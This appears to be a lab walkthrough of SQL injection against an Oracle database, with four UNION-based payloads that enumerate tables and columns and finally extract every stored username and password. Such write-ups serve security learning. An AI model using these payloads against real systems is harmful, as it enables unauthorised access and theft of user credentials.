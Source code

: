 # Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

You can list tables by querying `all_tables`
```bash
SELECT * FROM all_tables
```
You can list columns by querying `all_tab_columns`

```bash
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

# Lab
1) I determined number of columns and confirmed both column can hold string data
```bash
' UNION SELECT 'abc','def' FROM dual--
```
2) I used the following payload to retrieve the list of tables in the database and I found table named: `USERS_FIRSTQ`
```bash
' UNION SELECT table_name,NULL FROM all_tables--
```
3) Then I used this payload to retrieve the details of the columns in the table and I found `USERNAME_FNJWVV` and `PASSWORD_LMQXOK`
```bash
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_FIRSTQ'--
```
4) Then I used this payload with column name and table name to retrieve the usernames and passwords for all users:
```bash
' UNION SELECT USERNAME_FNJWVV, PASSWORD_LMQXOK FROM USERS_FIRSTQ--
```
